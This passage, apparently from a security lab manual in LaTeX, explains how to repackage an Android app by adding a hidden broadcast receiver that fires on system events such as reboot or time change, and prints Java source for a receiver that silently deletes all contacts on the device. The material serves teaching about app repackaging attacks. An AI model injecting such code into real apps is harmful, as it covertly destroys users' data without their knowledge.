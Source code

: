 In this task, we will inject malicious code into the target app's smali
code. There are many ways to do that. One approach is to directly modify some existing
smali file, so we can add malicious logic into it. Another approach, which
is much easier, is to add a completely new component to the app; this
new component is independent from the existing app, so it does not
affect the app's behavior. Since each independent component can be placed
in a separate smali file, using this approach, we just need to create a
new smali file.

There are four types of components in Android apps, \textit{activity}, 
\textit{service}, \textit{broadcast receiver}, and \textit{content
provider}. The first two components are most commonly used by apps, while the other two
are not as common. We can add any of these components in the target app, but the most important
problem for the attack is to find a way to trigger the malicious code without being noticed by
users. Although solutions to the problem exist for all these components,
the easiest one is broadcast receiver, which can be triggered by broadcasts
sent by the system. For example, when the system time is set, a \texttt{TIME\_SET} broadcast
will be sent out; after the system reboots, a \texttt{BOOT\_COMPLETED} broadcast
will be sent out.  We can write a broadcast receiver that listens to one of these broadcasts, 
so the malicious code will be automatically triggered by those events.


Writing a broadcast receiver in Android is quite straightforward. If you know how to do that,
feel free to write your own code. After you have built an APK file from your own Java code, you
should run \texttt{APKTool} to disassemble your APK file and obtain the smali code for your
broadcast receiver. For those who have not taken any Android programming course,
you can use our provided smali code. The Java code is described in the following, while the smali code
can be downloaded from the web site of this lab. 

\begin{lstlisting}
public class MaliciousCode extends BroadcastReceiver {
  @Override
  public void onReceive(Context context, Intent intent) {
     ContentResolver contentResolver = context.getContentResolver();
     Cursor cursor = contentResolver.query 
              (ContactsContract.Contacts.CONTENT_URI, null, null, null, null);
	
     while (cursor.moveToNext()) {
         String lookupKey = cursor.getString                             
              (cursor.getColumnIndex(ContactsContract.Contacts.LOOKUP_KEY));
                                    
         Uri uri = Uri.withAppendedPath 
	           (ContactsContract.Contacts.CONTENT_LOOKUP_URI, lookupKey);
         contentResolver.delete(uri, null, null);
     }
  }
}
\end{lstlisting}

